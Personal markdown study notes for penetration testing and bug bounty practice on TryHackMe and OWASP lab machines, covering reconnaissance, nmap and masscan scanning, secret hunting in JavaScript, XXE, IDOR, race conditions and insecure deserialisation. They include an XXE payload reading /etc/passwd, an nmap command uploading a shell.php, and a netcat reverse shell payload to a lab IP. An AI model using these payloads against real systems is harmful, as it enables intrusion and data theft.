

solve for lab: https://tryhackme.com/
install vpn: https://tryhackme.com/r/access

Also solve for owasp bwa for all the lab ( A VM for all the labs)
metaexploitable 2 , vulnearable machine
Metaexploit: set of tools and payload
WAF: Web application firewall.

# Solving OWASP top 10
https://tryhackme.com/r/room/owasptop10

### IP segregation
- `A` record collection if all IPs from the massdns result
`cat live_subdomain_massdns.txt| grep  " A "| awk -F ' ' '{ print $3}' | anew allips`
- non `A` records
`cat live_subdomain_massdns.txt| grep -v " A "`
`cat live_subdomain_massdns.txt| grep -v " A "  | wc`
`cat live_subdomain_massdns.txt| grep " CNAME "  | anew allcnames`


### Secret Information Leak
  Finding all js file which contains secrets

  `subjs`
  `katana` This one gives a lot of result

  `subjs -c 100 -i live_subdomain_httpx_toolkit_subonly   > alljs_subjs`

  `katana -list live_subdomain_httpx_toolkit_subonly -jc  | grep ".js$" | anew  alljs_katana`


  #### Secret finder

  ```

  git clone https://github.com/m4ll0k/SecretFinder.git secretfinder
  cd secretfinder
  python -m pip install -r requirements.txt or pip install -r requirements.txt
  or use apt install python3-xyz
  cat alljs_katana | while read url; do python secretfinder/SecretFinder.py -i $url -o cli >> secret.hml; done

  ```
  Finding secrets using other tools like mantra on js file urls
  Mantra github
  `cat jsfile | mantra -s`

  #### Nuclei
  Nuclei is used for running automation  and there are lot of automated scripts available inside nuclei template
  
 `-file` is necessary for the run

  ```
  nuclei -l alljs_katana  -t /home/kali/.local/nuclei-templates/file/js/ -file -vv
  nuclei -l alljs_katana -tags 'js-analyse' -file -vv
  nuclei -l alljs_katana -id 'js-analyse' -file -vv
  nuclei -l alljs_katana -t 'file/js' -t file/keys -file -vv

  ```
  for running takeover templates:
  `nuclei -t http/takeovers -stats -vv -pc 10 -jsc 60  -l live_subdomain_httpx_toolkit_subdomain_only`
  Bursuite jsfinder addon installation

### Scan port and version using IP
Finding a lot of IPs
  - find bigger domain which has lot of IPs like apple.com not flipkart, can be checked on arin whois
  - ASN to CIDR lookup via cmd tool by projectdiscovery `asnmap`
    - `asnmap -a AS714`
  - cidr to IPs `mapcidr -cidr` 
    - `python ../../../tools/cidr2ip.py cidr all_ip` or
    - `mapcidr -cidr cidr` way slower than first
  - Reverse dns (PTR)
    - `dnsx -ptr -resp-only -l ips.txt`
    - ```
        echo 173.0.84.0/24 | dnsx -silent -resp-only -ptr # Get all subdomain using CIDR
        echo AS17012 | dnsx -silent -resp-only -ptr # get all subdomain using ASN
        dnsx -l subdomain_list.txt -wd airbnb.com -o output.txt # get subdomain from the given list also using wildcard
      ```
    - Read more about this
  - Port scanning
    - `nabbu`
      -  `	naabu -host <CIDR>  -p 0-1024`
      -  nabbu with nmap: `	naabu -host 142.250.194.78  -p 0-1024 -nmap-cli "nmap -Vs"
`
    - `massscan` 
      - nmap is for depth port scan of single machine while masscan is for port scanning on many devices
      - To create configuration `sudo masscan -iL allips  --banners  -p80,443,22,8080,3678 --top-ports 100  --output-format list -oL ip_masscan --rate=1000 --echo > masscan.conf`
        - At rate=1000 gives reliable result and make the ports all not more than 1000
        - `-p1-1000,8080` can also be used for ports
      - To start the scan `masscan --resume masscan.conf`
      - To resume the scan `masscan --resume paused.conf` 
  
  
    - `sudo masscan <cidr>   -p0-1000  --rate=10000`
      Have not figured out the nmap usage in this
      `sudo masscan  142.250.194.78  -p80,443 --rate=10000 -oL portscan_out`
      
    - `nmap` : port scanning for a single machine
      - `nmap <ip> -sV`
      - `sudo nmap -A -sV -sC -O -p- -T3 -iL live_ips.txt -oN port_scan.txt`

  - Service check using nmap


### Nmap port scanning

- check the Nmap cheatsheet pdf
- `-PX` is meant host discovery on specific port and `-sX` is meant for port scanning 
- For local network scan, using ARP protocol where who has this IP request is broadcasted and receives a response whoever has that to map ip to MAC address. This protocol is not used elsewhere
`sudo nmap   10.0.2.1/24  -PR -sn --reason -vv `
- ICMP scan: used for error report, host discovery using ICMP. Also not feasible as being blocked by the firewalls. Mostly not being used
`sudo nmap   10.0.2.1/24  -PE -sn --reason -vv ` or `sudo nmap gogole.com/24 -sn`
  `PP` : ICMP timestamp
  `PM` : ICMP Address mask 
- Important options
  - `-n` is meant for no dns resolution
  - `T1-5` is meant for fast scan, default is `T3`
  - `-A` `-min-rate 1000` `-max-retries 3`
  - `-sV` for version detection for service running on the port
  - `-A` for all scan of OS detection, version, script scanning and traceroute
  - `-R` : reverse DNS lookup for all hosts (offline also)
- Nmap firewall bypassing: https://nmap.org/book/man-bypass-firewalls-ids.html
- State of port 
  1) OPEN 
  2) CLOSE
  3) Filtered: Due to some firewall , it does not whether port is open or close
  4) Unfiltered: Port is accessible but does not know whether port is open/close
  5) Open filtered: does not know whether port is open or filtered
  6) Close filtered: does not know whether port is close or filtered

#### TCP and UDP scan
SYN scan
`sudo nmap   -sS -sn  -vv google.com/30 --reason`
ACK scan
`sudo nmap   -sA -sn  -vv google.com/30 --reason`
UDP scan
`sudo nmap   -sU -Pn -n -vv google.com/30 --reason`
TCP scan
`sudo nmap   -sT -sn  -vv google.com/30 --reason`

#### More stealthier scan
- NULL scans (`-sN`) are when the TCP request is sent with no flags set at all. As per the RFC, the target host should respond with a RST if the port is closed
- FIN scans (`-sF`) work in an almost identical fashion; however, instead of sending a completely empty packet, a request is sent with the FIN flag (usually used to gracefully close an active connection). Once again, Nmap expects a RST if the port is closed
- Xmas scans (`-sX`) send a malformed TCP packet and expects a RST response for closed ports
- NULL, FIN and Xmas scans will only ever identify ports as being `open|filtered`, `closed`, or `filtered`
- Many firewalls are configured to drop incoming TCP packets to blocked ports which have the SYN flag set (thus blocking new connection initiation requests). By sending requests which do not contain the SYN flag, we effectively bypass this kind of firewall. Whilst this is good in theory, most modern IDS solutions are savvy to these scan types, so don't rely on them to be 100% effective when dealing with modern systems
- If the ICMP is disabled then we might stop the host discovery mode and use port scanning otherwise nmap does first host discovery using ICMP and if it get blocked, then it will mark it dead and will not scan
Sol : `nmap 10.10.84.246 -s<X>  -p 1-999 -vv -Pn`

#### NSE (Nmap Scripts)
Written in lua language for automation of network tasks
Pre-written scripts are available at `/usr/share/nmap/scripts`

- Running default scripts `-sC`
`nmap  19.12.108.56 -T4 -A -min-rate 1000 -max-retries 3 -sC`
- Running all script starts with `http`
`nmap  19.12.108.56 -T4 -A -min-rate 1000 -max-retries 3 --script=http* -vv`
- can be run on the category
  `nmap  19.12.108.56 -T4 -A -min-rate 1000 -max-retries 3 --script <category> -vv`
- Passing script arguement to script name . something
`nmap -p 80 --script http-put --script-args http-put.url='/dav/shell.php',http-put.file='./shell.php'`
`nmap --script-help <script-name>`
`sudo nmap 10.10.165.250  -sT -p 21  -vv  -Pn --script=ftp-anon --reason`



* Enumerate
  Use `masscan` for this or even 
* Host Discovery
  * To check if host is live using: nmap  using various protocol like ARP, TCP, UDP, ICMP
* Port Scanning
* Service and version iteration
* OS Detection
* Exploit
    After recon do search for exploit on `searchexploit` or exploit db


### Authentication
- Cookie is used to maintain the authentication state of the stateless server.
- session cookie containing predictable value so that it can be created for other user
- try space before the username to check if re-registration bug is present
- 

### XXE (XML External Entity)
#### Definition
XML: platorm independent, programming independent
Validation using DTD(Document Type Definition) and schema
e.g.

`<? xml version="1.0" encoding="utf-8" ?>
<mail>
</mail>
`

filename: note.dtd 
```
    <!DOCTYPE note [ <!ELEMENT note (to, from, heading, body)> <! ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)>] <!ENTITY greeting "hello world"> >
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

So now let's understand how that DTD validates the XML. Here's what all those terms used in note.dtd mean

    !DOCTYPE note -  Defines a root element of the document named note
    !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
    !ELEMENT to - Defines the to element to be of type "#PCDATA"
    !ENTITY greeting-  create the new entity

    NOTE: #PCDATA means parseable character data.


____________

The below payload gives the content of the file back to user from password file
```
<? xml version="1.0" ?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read; </root>

<? xml version="1.0" ?>
<!DOCTYPE replace [<!ENTITY name 'feast'>]>
<root>&name; </root>
```

```
#### Attack
XML parsing abuse is the main reason for the attack
- DOS attack
- SSRF
- Enable port scanning 
- Remote code execution  (RC)

Type of XXE attack:
- In Band: Immediate response
- Out Band: No immediate response hence the attacker has to write the output to some file / or other server
  

#### Broken Access Control

##### IDOR  (Insecure Direct Object Reference)
Are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly.
- Look for Parametrised URL and then check if they are only present for access of Object, if this happens then IDOR is present
- IDOR vulnerability with direct reference to static files which contains sensitive information like chat being store into file system with file name incremented or something
- The Value of a Parameter Is Used Directly to Retrieve a Database Record
- The Value of a Parameter Is Used Directly to Perform an Operation in the System
- The Value of a Parameter Is Used Directly to Retrieve a File System Resource
- The Value of a Parameter Is Used Directly to Access Application Functionality
- parameter pollution: adding redundant param with different value to check if it passess, e.g. GET /api?userID=12&userId22 and if this returns userID 22 data then IDOR
- JSON globbing: if the request accepts json then use different datatype in the json to trigger
  - aarray of IDs
  - bool
  - *, %,
  - large number with zeros or so
  - negative
  - decimal
  - string with delimiters: `'12,34'`
- Change the request method type to POST, GET, OPTION, PUT
- Use of depricated version like if the the URL has V2 then V1 might also exist
- Exploiting IDORs in APIs that use static keywords. e.g if `/api/me/profile` is being used then it might be possible to use the same api with different userid `/api/123/profile`
- sometime the parameter contains UUID, then finding other's UUID is difficult so use public profile pictures, app sharing links, in app message,re-register the email, error with UUID, or /all, /list or some wayback machine, and seach engine to find it. https://x.com/intigriti/status/1489941887641399300 
- Second order IDORs: `form {userID: '1234/../1245'}` or `/api/1234/../1245`


#### Firewall
If the ping is not working, then there could be firewall problem.


### Race condition
- Determination of 
"time-of-check to time-of-use" (TOCTOU) flaws are vulnerabilities where the value of a variable is used before it is safe to use.  A race condition vulnerability requires a 'collision' - two concurrent operations on a shared resource. So multi-threaded system would have the race condition.

Predict collision ==>> Probe ==>>> POC
[check the state where collision can occur] ==> [benchmark and then test for race condition] ==>> [if race condition is present then find the POC]
1. (limit-overrun : accessing/using values multiple times than it was suppose to be accessed)

2. Multi-endpoint race collision
- Detecting race condition
  - Predict collision attack: (race condition): check if same entity is affected. Everything is multi-step. Identify where this can impact like orders, applying code coupons, redeem codes, user and sessions
  - probe 
  - POC
  e.g. Think about the classic logic flaw in online stores where you add an item to your basket or cart, pay for it, then add more items to the cart before force-browsing to the order confirmation page. 

3. Single endpoint race condition:
  Email address confirmations, or any email-based operations, are generally a good target for single-endpoint race conditions. Emails are often sent in a background thread after the server issues the HTTP response to the client, making race conditions more likely


4. Session base locking: PHP's native session handler module only processes one request per session at a time. so send request in parallel with different session
- php has session locking sequencial execution of request so try parallel request with different session


5. Partial construction race conditions: Many applications create objects in multiple steps, which may introduce a temporary middle state in which the object is exploitable. 
- Empty array option like `param[]=` are useful when we have a lot of intermediate steps and can be intercepted for verification/confirmation if any uninitialised record is created in the intermediate steps.
- Add one more request for warming up the server

5. Time-sensitive attacks: The techniques for delivering requests with precise timing can still reveal the presence of other vulnerabilities. One such example is when high-resolution timestamps are used instead of cryptographically secure random strings to generate security tokens. 

Keywords
- Multiprocessing
- Multithreading
- Scheduling

Having inconsistent value of variable while doing the multi-process/thread
* where to find?
  - transaction step
  - coupon code
  - redeem code
  - following user
  - liking videos
  - rating

* how to find?
  - check if any endpoint have race condition which means if they have different output in sequence and inconsistent output in parallel. (User burp turbo intruder or parallel group request of repeater)
  - If there is lot of db calls for a single request in the backend then probably it has race condition

  - use `turbo-intruder` in burpsuit
      For HTTP/1, it uses the classic last-byte synchronization technique.
      For HTTP/2, it uses the single-packet attack technique, first demonstrated by PortSwigger Research at Black Hat USA 2023.
    - In burp repeater > create tab group by click `+` and then add  tabs to the group, also duplication of tab in the group is there. Try to send the packet in group in parallel and race condition is discovered. only  **HTTP/2** is preffable but not mandatory
    - check the python code to run in parallel using gate where gate is used to withold last byte of all request and at end send it for all connection.
  - use nuclei to fire parallel request
  - use curl * x times and check the final state
  
Background for TURBO Intruder:
  - Request is really fast. `Skipfish` is very fast because it does not waste time with TCP and TLS handshake. It does once and does request all.
  - `HTTP Pipelining` makes very fast, faster than `skipfish`. Browser does not support but server does . So it does the SEND, SEND, SEND and after then READ, READ, READ. It uses the same concurrent connection to send all request. so does not get limit by server number of workers running.
  - HTTP 2 does not made any much difference and hence `HTTP Pipeline`
  - `queueRequests` is the function which sends the request where requests are queued using `engine.queue` and then sent out at once using `engine.openGate` or without it
    - `concurrentConnection`: number of connection with server where the request is going to be sent for a single handshake. (1-30)
    - `requestsPerConnection`: Number of request sent per connection where if the retries increases then make the request optimal by reducing it till it reaches always 0. 10 times faster
    - `pipeline`: (boolean) make it 40 times faster
    - `learn` in `engine.queue` makes the assignment of interesting variable making it true or false. So for boring response make `learn=1` in one request and  it would become boring and `learn=1` interesting for other request which is different from this
    - `wordlists.observedWords` : all word that has be observed in the proxy
    - Inside handleResponse we can have req.engine.queue for conditional queuing on response also. Usecase example is bruteforce traversal.
   
    - `engine = engine.BURP` will use network of burp but without it, will use your local network where SSL and other burp features would not be available
    - Typically `Engine.HTTP2` is the fastest if it works followed by a well-tuned `Engine.THREADED`, followed by `Engine.BURP2` then `Engine.BURP`.
    - Can do anthing like enumerating `username/ host/ cookie/ header/file/ folder/ route` etc
  - Becuase of huge number of request, everything should not shown so we can filter out the response using `handleResponse` which we want to see so that memory does not get full.  **Before going long attacks completely different of race condition** , 
    - filter out response. 
    - stream data instead of buffering it. e.g. don't preload the wordlist but read line by lines using open `(file).readlines`
    - use wordlist
      ```
      for word in open('/usr/share/dict/words'):
        engine.queue(target.req, word.rstrip())```
  - showing success resp only 
    ```
    def handleResponse(req, interesting):
      if '200 OK' in req.response:
          table.add(req)
    ```
  - Filter using decorator on table itself: https://github.com/PortSwigger/turbo-intruder/blob/master/decorators.md
  ```
  @MatchStatus(200,204)
  @MatchSizeRange(100,1000)
  def handleResponse(req, interesting):
      table.add(req)
   ``` 
```
  - For race condition, engine.start() should be after queueing it. but in other case we can start the engine and queue after it.
  - `%s` is  used for substitution
  - identification of states in the request
  - consider time to complete each request, and  figure out whether delay is due to network, backend architecture or endpoint jitters.

### HTML injection attack:
Adding arbitrary html code into the page via passing html code to input/parameter. The target variable responsible is due to innerHTML or document.write
```
var userposition=location.href.indexOf("user=");
var user=location.href.substring(userposition+5);
document.getElementById("Welcome").innerHTML=" Hello, "+user;
```
```
var userposition=location.href.indexOf("user=");
var user=location.href.substring(userposition+5);
document.write("<h1>Hello, " + user +"</h1>");
```
Both code can be passed the payload like `http://vulnerable.site/page.html?user=` and will execute any arbitrary code


### Apache Struts
if it website link contains .strut, .trq or .do then check for vulnerability and check the exploit using google.com
    	- exploit-db gives use the  exploit payload
    	- 


### Jenkin CVs


### Security Misconfiguration
https://tryhackme.com/r/room/owasptop10
oshp-validator github to validate all headers ( for future )
- Default Passwords on gitub or in source code
- 


### Serialisation / deserialisation
- insecure deserialisation 
  - Cookie
    - secure only : if set, this cookie will set over https
    - change different flag of cookie to check for IDOR or access admin page
  - python pickle exploit
    `nc -nlvp 4444`
    checking the deserialisation happening from base64 using pickle.loads(base64),
    so encoding our command into base64
    reverse shell payload `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.17.27.35  4444 > /tmp/f`
    * find any file any level deep
    `find <root dir> -type f -name '<regex for file>'`
    * all decoding https://dencode.com

### Known vulnerability
    - `wpscan` for wordpress scan to get the version and check vulnerability if present on exploit-db and use the exploit as is to check the vulnerability
    - check different variable of the keyword found and do the exploit-db search properly


### Information Gathering
143.110.250.149
checking the IP of malicious activity
    - open-source databases out there, like AbuseIPDB, and Cisco Talos Intelligence, where you can perform a reputation and location check for the IP address


  


  

